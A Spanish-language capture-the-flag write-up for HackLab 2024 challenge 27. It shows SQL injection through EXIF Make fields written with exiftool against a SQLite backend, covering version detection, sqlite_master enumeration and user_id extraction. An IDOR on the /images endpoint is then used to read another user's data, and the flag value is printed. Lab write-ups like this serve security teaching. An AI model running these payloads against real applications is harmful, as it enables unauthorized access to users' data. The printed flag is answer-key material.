






# Desafío 27 - Mis viajes (HackLab 2024)

**Plataforma:** HackLab (SoftwareSeguro)  
**Edición:** HackLab 2024  
**Categoría:** SQL Injection  

## Análisis

Similar al desafío 20, la inyección SQL se realiza vía metadatos EXIF sobre un backend SQLite. En este caso el objetivo es encontrar el `user_id` de otro usuario con imágenes subidas.

Formato de ID del usuario: `d6ac9cd7-03d8-4a95-a73f-41a02f09d210`

## Explotación

Primero se verifica el motor de base de datos:

```bash
exiftool -Make="',(SELECT sqlite_version())) --" -Model="payload_model" test.jpg_original
```

Resultado: versión `3.40.1` → SQLite.



Se enumeran las tablas de `sqlite_master`. El payload concatena (`|| ... ||`) el resultado de una subconsulta dentro del campo `Make`, por lo que la subconsulta debe devolver una **única fila** (si devuelve varias, la concatenación falla). Por eso se usa `LIMIT 1 OFFSET X`: `LIMIT 1` asegura un solo resultado y `OFFSET X` permite recorrer la tabla fila por fila incrementando `X` (OFFSET 0 = 1er resultado, OFFSET 1 = 2do, etc.).

```bash
exiftool -Make="'||(SELECT name FROM sqlite_master LIMIT 1 OFFSET 0)||'" test.jpg_original
exiftool -Make="'||(SELECT name FROM sqlite_master LIMIT 1 OFFSET 1)||'" test.jpg_original
```



```bash
exiftool -Make="'||(SELECT name FROM sqlite_master LIMIT 1 OFFSET 2)||'" test.jpg_original
exiftool -Make="'||(SELECT sql FROM sqlite_master WHERE name='images')||'" test.jpg_original
```



Se obtiene el `user_id` de la tabla `images`:

```bash
exiftool -Make="'||(SELECT user_id FROM images LIMIT 1)||'" test.jpg_original
```

ID encontrado:

```
1089b4a3-b6d0-450d-9c8a-b120b30bcb04
```





Con el `user_id` de la víctima ya no hacen falta más inyecciones SQL: basta con acceder directamente al endpoint que el front usa para listar imágenes (`/images/<user_id>`), que no valida que el ID solicitado coincida con el usuario autenticado (IDOR). Se abre en el navegador:

```
/images/1089b4a3-b6d0-450d-9c8a-b120b30bcb04
```

La respuesta es un JSON con las imágenes de ese usuario, cuyo campo `description` contiene la flag.



## Flag

```
878c14bbd5cd0127b86fd8dac1d55c4d
```
